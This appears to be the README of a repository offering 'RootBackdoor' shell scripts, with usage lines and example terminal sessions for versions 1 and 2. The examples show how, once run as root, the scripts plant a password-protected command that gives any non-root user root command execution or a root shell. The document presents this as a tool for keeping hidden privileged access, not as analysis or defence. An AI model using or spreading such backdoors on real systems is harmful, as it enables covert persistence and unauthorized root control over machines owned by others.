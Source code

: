# RootBackdoor

Usage:
```
# chmod +x backdoor.sh
# ./backdoor.sh <backdoor> <password>
```

As non-root user run:
```
$ <backdoor> <password> <command>
```

Example:
```
root@machine:~# ./backdoor.sh root bl33dz
root@machine:~# su user
user@machine:~$ whoami
user
user@machine:~$ root bl33dz whoami
root
```


# RootBackdoor V2

Usage:
```
# chmod +x backdoorV2.sh
# ./backdoor.sh <backdoor> <password> <shell>
```

As non-root user run:
```
$ <backdoor>
```
It will ask you password

Example:
```
root@machine:~# ./backdoor.sh ruut bleedz33 /bin/bash
root@machine:~# su user
user@machine:~$ whoami
user
user@machine:~$ ruut
PASSWORD:
root@machine:~# whoami
root
```
